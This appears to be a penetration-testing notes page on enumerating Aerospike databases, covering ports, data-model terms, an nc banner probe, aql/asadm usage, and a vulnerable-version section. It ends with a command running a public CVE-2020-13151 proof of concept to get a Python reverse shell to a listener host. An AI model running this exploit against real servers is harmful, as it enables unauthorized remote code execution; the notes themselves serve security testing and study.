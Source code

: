 # Aerospike (3000-3005)

## 101

**Aerospike** is a fast, NoSQL key-value store used in real-time apps—think session storage, user profiles, ad tech, etc. You might encounter it in environments that value _speed over complexity_, often with large-scale deployments.

<table><thead><tr><th width="176.99993896484375">Port</th><th width="208.66668701171875">Protocol</th><th>Description</th></tr></thead><tbody><tr><td><code>3000</code></td><td>TCP</td><td>Client access (main DB port)</td></tr><tr><td><code>3001</code></td><td>TCP</td><td>Internal fabric (cluster communication)</td></tr><tr><td><code>3002</code></td><td>TCP</td><td>Heartbeat (node monitoring)</td></tr><tr><td><code>3003</code></td><td>TCP</td><td>Info (optional; monitoring/statistics)</td></tr><tr><td><code>3004-3005</code></td><td>TCP</td><td>TLS equivalents of above (if enabled)</td></tr></tbody></table>

<table><thead><tr><th width="121.00006103515625">Aerospike</th><th width="98.6666259765625">RDBMS </th><th>Description</th></tr></thead><tbody><tr><td>Namespace</td><td>Database</td><td>Top-level data container. Configured with storage engine, replication, TTL, etc.</td></tr><tr><td>Set</td><td>Table</td><td>Logical grouping of records within a namespace; a table without enforced schema.</td></tr><tr><td>Record</td><td>Row</td><td>A single data entry identified by a key.</td></tr><tr><td>Bin</td><td>Column</td><td>Key-value pair inside a record.</td></tr></tbody></table>

## Manual Probe

```bash
$ nc -nv 192.168.X.143 3003
(UNKNOWN) [192.168.X.143] 3003 (?) open
help
...
namespace;truncate-namespace-undo;truncate-undo;version;
version
Aerospike Community Edition build 5.1.0.1
```

## Usage

{% tabs %}
{% tab title="aql" %}
To interact the **`aql`** (Aerospike Query Language) utility can be used:

```bash
aql -h <host> -p 3000
```

Once connected, basic commands look like:

```sql
show namespaces;
show sets;
select * from <namespace>.<set>;
```
{% endtab %}

{% tab title="asadm" %}
For deeper inspection/admin tasks the Admin Tool (`asadm`) can be used:

```bash
asadm -h <host> -p 3000
```
{% endtab %}
{% endtabs %}

## Versions

### < 5.1.0.3

Vulnerable to[ CVE-2020-13151](https://nvd.nist.gov/vuln/detail/CVE-2020-13151) with a [PoC](https://github.com/b4ny4n/CVE-2020-13151) available.

```bash
$ ./cve2020-13151.py --ahost aero --pythonshell --lhost=192.168.X.154 --lport=80
```
